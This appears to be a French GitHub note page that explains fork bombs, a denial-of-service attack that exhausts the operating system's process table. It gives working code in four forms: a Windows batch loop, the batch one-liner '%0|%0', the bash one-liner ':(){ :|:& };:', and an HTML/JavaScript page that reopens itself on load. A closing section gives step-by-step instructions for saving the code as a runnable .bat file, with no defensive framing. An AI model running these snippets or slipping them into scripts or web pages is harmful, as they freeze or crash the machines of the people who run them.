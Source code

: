 # Fork bomb
La fork bomb est une forme d'attaque par déni de service contre un système informatique utilisant la fonction fork.  

Elle est basée sur la supposition que le nombre de programmes et de processus pouvant être exécutés simultanément sur un ordinateur est limité.

## Principe
Une fork bomb fonctionne en créant un grand nombre de processus très rapidement, au moyen de la fonction fork, afin de saturer l'espace disponible dans la liste des processus gardée par le système d'exploitation.  

Si la table des processus se met à saturer, aucun nouveau programme ne peut démarrer tant qu'aucun autre ne termine.  

Même si cela arrive, il est peu probable qu'un programme utile démarre étant donné que les instances de la bombe attendent chacune d'occuper cet emplacement libre.

# Code
```
@echo off
:start
start
goto :start
```
[github.com /Altherneum/.github /blob/main /note /OS/Windows /forkBomb.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/forkBomb.bat)

## Variante Windows (Batch)
```
%0|%0
```
[github.com /Altherneum/.github /blob/main /note /OS/Windows /forkBomb2.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/forkBomb2.bat)

## Variante Linux (Bash)
```
:(){ :|:& };:
```
[github.com /Altherneum/.github /blob/main /note /OS/Linux /forkBomb.sh](https://github.com/Altherneum/.github/blob/main/note/OS/Linux/forkBomb.sh)

## Variante HTML / JS
```
<script type="text/javascript">
  function open_target_blank() 
  {
    window.open(window.location);
  }
  window.onload = open_target_blank();
</script>
```
[github.com /Altherneum/.github /blob/main /note /Code/Web /forkBomb.html](https://github.com/Altherneum/.github/blob/main/note/Code/Web/forkBomb.html)

# Comment utiliser

## Créer le fichier
- Créer un fichier [NOM].bat
- Modifier le text du fichier avec le code suivant : [Code](#Code)
- Vérifier que vous enregistrez bien le type de fichier en "Tout type de fichier" et non pas text uniquement
![notepad_hreGWL4UXj](https://github.com/Altherneum/.github/assets/84735589/940ea3b0-9e4b-4668-9af0-2eecbf35db47)